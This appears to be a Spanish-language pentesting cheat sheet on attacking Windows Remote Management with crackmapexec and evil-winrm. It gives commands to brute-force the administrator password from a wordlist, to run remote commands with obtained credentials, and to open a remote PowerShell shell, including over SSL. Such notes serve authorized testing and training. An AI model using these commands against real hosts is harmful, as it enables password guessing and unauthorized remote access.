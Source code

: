 # WINRM 

Tags: #WinRM #Windows #Crackmapexec 

* 5985 -> HTTP
* 5986 -> HTTP - SSL

Windows Remote Management (WinRM) es utilizado de las siguientes maneras:
* Acceso remoto e interactúa con los hosts en una red local de Windows.
* Acceso remoto y ejecuta comandos en sistemas Windows 
* Manejo y configuración de sistemas Windows remotamente 

## Crackmapexec  con WinRM

```bash
❯ apt-get -y install crackmapexec     # Para instalar crackmapexec. CrackMapExec currently supports remote authentication using MSSQL, SMB, SSH, and WinRM.
```

```bash  
# Debe de estar abierto el puerto 5985 para poder usar el WinRM

# Haremos brute force para saber la passwd del usuario administrador
❯ crackmapexec winrm ❮IP❯ -u administrator -p /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt 

❯ crackmapexec winrm ❮IP❯ -u ❮‘user’❯ -p ❮‘password’❯ -x "whoami"   # Teniendo credenciales validas, podemos usar Crackmapexec para ejecutar un comando
	
	# u = Usuario
	# p = Password
	# x = Ejecutar un comando (whoami, systeminfo)
```

## Validar credenciales para conexión con Evil-WinRM

```bash 
❯ crackmapexec winrm ❮IP❯ -u ❮‘user’❯ -p ❮‘password’❯    # Podemos utilizar el puerto de winrm para entrar con una consola en 'Powershell', pero antes debemos saber si el usuario esta en el grupo 'Remote management users', el cual al ejecutar el comando debe poner un (Pwn3d!).

# Podemos usar evil-winrm para conectarnos, si tiene el puerto 5985 abierto
```

## Evil-WinRM

```bash
❯ gem install evil-winrm          # Instalar Evil-winrm
❯ gem uninstall evil-winrm        # Desinstalar Evil-winrm
❯ gem cleanup evil-winrm          # Si nos marca un error, debemos de desinstalarlo y hacerle el clean, para despues instalarlo de nuevo
```

```bash
❯ evil-winrm.rb -u administrator -p <'passwd'> -i ❮IP❯   # Conectarnos al servicio de administracion remota de Windows
❯ evil-winrm -i ❮IP❯ -u ❮'user'❯ -p ❮'password'❯             
```

## Evil-WinRM para SSL 

```bash 
❯ evil-winrm -i ❮IP❯ -c ❮Certificado.pem❯ -k ❮Private-Key.pem❯ -S 
	# S = Indicar que es SSL
	
# Nota: Si no agregamos el parametro '-S', evil-winrm tratara de autenticarse por el puerto 5985 y no por el 5986 que si contempla el SSL
```